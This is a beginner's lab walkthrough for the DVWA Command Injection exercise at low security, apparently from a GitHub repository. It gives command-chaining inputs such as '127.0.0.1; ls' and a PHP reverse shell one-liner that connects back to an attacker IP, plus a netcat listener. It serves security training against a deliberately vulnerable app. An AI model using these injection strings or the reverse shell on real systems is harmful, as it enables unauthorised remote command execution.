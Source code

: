 # 🧨 Command Injection – Low Security Level

### 🛠️ Objective:
Exploit unsanitized input that is passed directly to the system shell, allowing arbitrary command execution.

---

### 🧭 Step-by-Step Walkthrough

1. Navigate to the **Command Injection** page in DVWA.
2. Enter any IP address in the input field (e.g., `127.0.0.1`) and submit.
3. The application responds with a successful **ping** output.

---

### 🔓 Command Injection Exploitation

At this level, the application does not sanitize user input. This allows chaining additional system commands using:

- `;`
- `&&`
- `|`
- `||`

#### 💣 Example Commands:
```bash
127.0.0.1; ls
127.0.0.1 && hostname
127.0.0.1 | whoami
````

These commands are executed by the server shell and their output is returned in the browser.

---

### 🐚 Reverse Shell Example

A reverse shell can be triggered using PHP and Netcat.

#### 🔁 Steps:

1. Start a Netcat listener in your terminal:

   ```bash
   nc -nlvp 4242
   ```

2. Submit the following payload:

   ```bash
   127.0.0.1;php -r '$sock=fsockopen("192.168.77.54",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
   ```

> 📌 Replace `192.168.77.54` with your attack machine's IP address.

---

### 🧩 Why This Works

There is **no input sanitization or validation**. The input is passed directly to the OS command interpreter, allowing full shell access.

---

## ✅ Status

* ✅ Easily exploitable
* 🟢 Beginner-friendly
